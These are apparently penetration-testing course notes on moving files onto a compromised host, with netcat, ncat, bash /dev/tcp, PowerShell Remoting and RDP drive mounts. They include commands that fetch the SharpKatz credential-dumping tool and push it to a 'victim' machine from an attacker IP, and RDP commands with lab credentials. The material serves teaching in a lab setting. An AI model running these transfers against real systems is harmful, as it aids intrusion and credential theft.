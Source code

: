 ## Netcat
### File Transfer with Netcat and Ncat
Let's create an example and transfer a tool to our target.
In this example, we'll transfer [SharpKatz.exe](https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe) from our Pwnbox onto the compromised machine. We'll do it using two methods. Let's work through the first one.
We'll first start Netcat (`nc`) on the compromised machine, listening with option `-l`, selecting the port to listen with the option `-p 8000`, and redirect the [stdout](https://en.wikipedia.org/wiki/Standard_streams#Standard_input_\(stdin\)) using a single greater-than `>` followed by the filename, `SharpKatz.exe`.

#### NetCat - Compromised Machine - Listening on Port 8000
```shell
victim@target:~$ nc -l -p 8000 > SharpKatz.exe
```
If the compromised machine is using Ncat, we'll need to specify `--recv-only` to close the connection once the file transfer is finished.
#### Ncat - Compromised Machine - Listening on Port 8000
```shell-session
victim@target:~$ ncat -l -p 8000 --recv-only > SharpKatz.exe
```

Then on our machine:
```shell
$ wget -q https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe

$ nc -q 0 192.168.49.128 8000 < SharpKatz.exe
```

By utilizing Ncat on our attacking host, we can opt for `--send-only` rather than `-q`. The `--send-only` flag, when used in both connect and listen modes, prompts Ncat to terminate once its input is exhausted.
So with Ncat:
```shell
$ ncat --send-only 192.168.49.128 8000 < SharpKatz.exe
```

Instead of listening on our compromised machine, we can connect to a port on our attack host to perform the file transfer operation. This method is useful in scenarios where there's a firewall blocking inbound connections. Let's listen on port 443 on our Pwnbox and send the file [SharpKatz.exe](https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe) as input to Netcat.

#### Attack Host - Sending File as Input to Netcat
```shell
V0xD0x@htb[/htb]$ sudo nc -l -p 443 -q 0 < SharpKatz.exe
```
#### Compromised Machine Connect to Netcat to Receive the File
```shell
victim@target:~$ nc 192.168.49.128 443 > SharpKatz.exe
```
Let's do the same with Ncat:

```shell-session
V0xD0x@htb[/htb]$ sudo ncat -l -p 443 --send-only < SharpKatz.exe
```
```shell
victim@target:~$ ncat 192.168.49.128 443 --recv-only > SharpKatz.exe
```

If we don't have Netcat or Ncat on our compromised machine, Bash supports read/write operations on a pseudo-device file [/dev/TCP/](https://tldp.org/LDP/abs/html/devref1.html).

Writing to this particular file makes Bash open a TCP connection to `host:port`, and this feature may be used for file transfers.
#### Compromised Machine Connecting to Netcat Using /dev/tcp to Receive the File
```shell-session
victim@target:~$ cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe
```

---

### PowerShell Session File Transfer
We already talked about doing file transfers with PowerShell, but there may be scenarios where HTTP, HTTPS, or SMB are unavailable. If that's the case, we can use [PowerShell Remoting](https://docs.microsoft.com/en-us/powershell/scripting/learn/remoting/running-remote-commands?view=powershell-7.2), aka WinRM, to perform file transfer operations.

To create a PowerShell Remoting session on a remote computer, we will need administrative access, be a member of the `Remote Management Users` group, or have explicit permissions for PowerShell Remoting in the session configuration. Let's create an example and transfer a file from `DC01` to `DATABASE01` and vice versa.

We have a session as `Administrator` in `DC01`, the user has administrative rights on `DATABASE01`, and PowerShell Remoting is enabled. Let's use Test-NetConnection to confirm we can connect to WinRM.

#### From DC01 - Confirm WinRM port TCP 5985 is Open on DATABASE01.
```powershell
PS C:\htb> whoami
htb\administrator

PS C:\htb> hostname
DC01
```

```powershell
PS C:\htb> Test-NetConnection -ComputerName DATABASE01 -Port 5985

ComputerName     : DATABASE01
RemoteAddress    : 192.168.1.101
RemotePort       : 5985
InterfaceAlias   : Ethernet0
SourceAddress    : 192.168.1.100
TcpTestSucceeded : True
```
Because this session already has privileges over `DATABASE01`, we don't need to specify credentials. In the example below, a session is created to the remote computer named `DATABASE01` and stores the results in the variable named `$Session`.

#### Create a PowerShell Remoting Session to DATABASE01
```powershell
PS C:\htb> $Session = New-PSSession -ComputerName DATABASE01
```
We can use the `Copy-Item` cmdlet to copy a file from our local machine `DC01` to the `DATABASE01` session we have `$Session` or vice versa.

#### Copy samplefile.txt from our Localhost to the DATABASE01 Session

```powershell
PS C:\htb> Copy-Item -Path C:\samplefile.txt -ToSession $Session -Destination C:\Users\Administrator\Desktop\
```

#### Copy DATABASE.txt from DATABASE01 Session to our Localhost
```powershell
PS C:\htb> Copy-Item -Path "C:\Users\Administrator\Desktop\DATABASE.txt" -Destination C:\ -FromSession $Session
```

## RDP
If we are connected from Linux, we can use `xfreerdp` or `rdesktop`. At the time of writing, `xfreerdp` and `rdesktop` allow copy from our target machine to the RDP session, but there may be scenarios where this may not work as expected.

As an alternative to copy and paste, we can mount a local resource on the target RDP server. `rdesktop` or `xfreerdp` can be used to expose a local folder in the remote RDP session.

2 ways to mount a folder with rdesktop or xfreerdp:
```shell
rdesktop 10.10.10.132 -d HTB -u administrator -p 'Password0@' -r disk:linux='/home/user/rdesktop/files'
```

```shell
xfreerdp /v:10.10.10.132 /d:HTB /u:administrator /p:'Password0@' /drive:linux,/home/plaintext/htb/academy/filetransfer
```

To access the directory, we can connect to `\\tsclient\`, allowing us to transfer files to and from the RDP session.
![[Pasted image 20250923170423.png]]

Alternatively, from Windows, the native [mstsc.exe](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/mstsc) remote desktop client can be used.
![[Pasted image 20250923170453.png]]


